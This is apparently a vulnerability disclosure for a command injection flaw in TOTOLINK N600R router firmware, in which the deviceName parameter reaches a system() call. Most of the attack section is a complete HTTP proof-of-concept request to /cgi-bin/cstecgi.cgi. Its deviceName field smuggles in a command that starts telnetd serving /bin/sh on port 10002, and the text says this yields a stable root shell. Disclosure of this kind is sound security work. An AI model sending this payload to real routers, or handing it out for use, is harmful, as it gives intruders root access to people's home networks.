



# TOTOlink N600R V5.3c.7159_B20190425 Command injection vulnerability

## Overview

- Manufacturer's website information：http://www.totolink.cn
- Firmware download address ： http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=2&ids=36

## 1. Affected version



Figure 1 shows the latest firmware Ba of the router

## Vulnerability details



The program passes the content obtained through the devicename parameter to V7, then passes the matching content to v18 through the sprintf function, and finally executes the content in v18 through the system function. There is a command injection vulnerability.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware V5.3c.7159_B20190425
2. Attack with the following POC attacks

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 145
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/telnet.asp?timestamp=1647874864
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1647874864:2
Connection: close

{
	"topicurl":"setting/setDeviceName",
	"file_exist":"1",
	"num":"1",
	"deviceMac":"1",
	"deviceName":"';telnetd -l /bin/sh -p 10002;'“
}
```

The reproduction results are as follows:



Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell
